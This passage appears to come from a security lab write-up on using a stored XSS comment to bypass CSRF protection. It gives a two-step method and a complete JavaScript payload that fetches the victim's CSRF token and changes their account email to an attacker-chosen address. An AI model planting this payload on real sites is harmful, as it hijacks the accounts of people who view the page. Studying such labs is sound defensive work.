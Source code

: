   <img src="image3.png" width="800" hight="500"/>
</p>

So the steps is 

- 1- Get CSRF token from DOM GET request
- 2- Send POST request to change email with this CSRF token

The following code will change the email to `aboelkassem.me@gmail.com` to anyone view this comment

```jsx
<script>
	function performAccountTakeOver(token){
		var url = '/my-account/change-email';
	  var params = 'csrf='+token+'&email=aboelkassem.me@gmail.com';
		var emailRequest = new XMLHttpRequest();
		emailRequest.open('POST', url, true);
		emailRequest.send(params);
	}
	
	var req = new XMLHttpRequest();
	req.onreadystatechange = function(){
		if(req.readyState == 4){ // success
			var htmlResponse = req.responseText;
			var parser = new DOMParser().parseFromString(htmlResponse, 'text/html');
			var token = parser.getElementsByName('csrf')[0].value;
			performAccountTakeOver(token);
		}
	}
	
	req.open('GET', '/my-account', true);
	req.send();
</script>
```
